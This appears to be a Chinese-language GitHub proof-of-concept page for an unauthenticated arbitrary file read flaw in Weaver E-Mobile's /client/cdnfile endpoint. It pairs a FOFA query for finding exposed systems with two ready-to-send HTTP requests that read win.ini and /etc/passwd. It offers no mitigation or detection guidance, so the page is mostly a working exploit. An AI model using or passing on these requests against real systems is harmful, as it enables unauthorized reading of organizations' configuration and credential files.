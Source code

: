 # 泛微E-Mobile系统接口cdnfile存在任意文件读取漏洞
泛微e-mobile遵循以客户为中心，以企业中的事务为导向的出发点，帮助企业构建以员工为核心的移动统一办公平台。e-mobile可满足企业日常管理中的绝大部分管理需求， 诸如市场销售、项目、采购、研发、客服、财务、人事、行政等；同时e-mobile可帮助企业实现面向不同用户量身定制的移动办公入口，包括企业员工、供应商、代理商、 合作伙伴、投资费以及终端客户等整个供应链条上的关系主体，满足为企业全方位的移动办公需求。泛微e-mobile client/cdnfile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。
## fofa

`app="泛微-EMobile"`
***
### windows下执行
`GET /client/cdnfile/1C/Windows/win.ini HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close`
![image](https://github.com/user-attachments/assets/dfc8f838-09ff-4fd5-9bfb-a96058e4cac3)

### linux下执行
`GET /client/cdnfile/C/etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close`
![image](https://github.com/user-attachments/assets/2f7e6688-aa3d-4ed5-81c8-4da7e2865fe2)
